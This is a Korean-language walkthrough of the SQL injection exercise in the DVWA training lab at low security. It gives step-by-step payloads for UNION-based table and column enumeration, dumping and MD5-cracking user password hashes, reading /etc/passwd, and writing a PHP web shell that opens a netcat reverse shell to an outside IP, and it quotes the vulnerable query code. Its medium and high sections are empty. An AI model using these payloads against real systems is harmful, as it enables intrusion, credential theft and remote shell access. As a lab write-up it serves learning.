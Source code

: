 
DVWA v1.0.7

# SQL Injection

## Security Level : low

### 풀이

![image](https://github.com/user-attachments/assets/eea201ad-8b97-4857-ac38-85a5fbdbda2e)

유저 ID를 검색하는 화면이 나옴

![image](https://github.com/user-attachments/assets/30861f99-1bf2-4228-ae85-2f20fd3f8c2d)

1을 입력하면 admin 나옴. User ID 에 해당하는 번호를 입력하면 그에 대응하는 user가 출력됨을 알 수 있음.

![image](https://github.com/user-attachments/assets/6f500fc8-aea5-498f-85d0-d923653d366f)

"'or 1=1 #" 로 SQL Injeciton 공격을 실행하니 모든 유저의 정보가 나타남.

![image](https://github.com/user-attachments/assets/c1f32cb7-28d5-4f4b-842e-a593981af107)

'union select 1,2 from information_schema.tables # 로 현재 출력하고 있는 열의 개수는 2개임을 알게 됨.

![image](https://github.com/user-attachments/assets/b2cddd43-dd29-4771-ae1b-4cc7fd97e46b)

'UNION SELECT table_name, NULL FROM information_schema.tables # 를 통해 users 라는 테이블명을 알게 됨.

![image](https://github.com/user-attachments/assets/9ba8245f-bf79-42bd-8414-7669f1faadc1)

'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' # 를 통해 users 테이블에는 user_id, first_name, last_name, user, password, avatar 라는 열이 있음을 알게 됨.

![image](https://github.com/user-attachments/assets/8938bb15-8d90-4961-8f0c-940e6ef7f1ef)

'union select user, password from users # 를 통해 user 와 password 값을 알아냄. password는 암호화되어 있음.

![image](https://github.com/user-attachments/assets/1398434e-f753-4472-b3cd-1d1d8150c5ac)

admin의 암호화된 비밀번호가 어떤 방식으로 암호화되어 있는지 확인해보니 md5가 가장 가능성이 높음.

![image](https://github.com/user-attachments/assets/835e5a19-b125-4346-9e75-f8dc086bb15d)

md5로 decode해보니 password라는 값이 나옴. 따라서 admin의 비밀번호는 password라는 것을 알 수 있음.

![image](https://github.com/user-attachments/assets/2f1e8220-c57d-427f-92d9-4154d56e16ef)

1' union select null, load_file('/etc/passwd') # 로 /etc/password 를 불러 올 수 있음.

' union select '<?passthru("nc -e /bin/sh 192.160.113.130 8080");?>',null into outfile '/tmp/shell.php'# 다시 테스

### 페이지 소스

![image](https://github.com/user-attachments/assets/a3d6564a-6a5f-4211-af1e-b54b081b3e40)

$id = $_GET['id'];

$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";   → 해당 코드는 $_GET['id']로 전달된 사용자 입력값을 별도의 필터링이나 검증 없이 직접 SQL 쿼리문에 삽입

## Security Level : medium

### 풀이



### 페이지 소스



## Security Level : high

### 풀이



### 페이지 소스








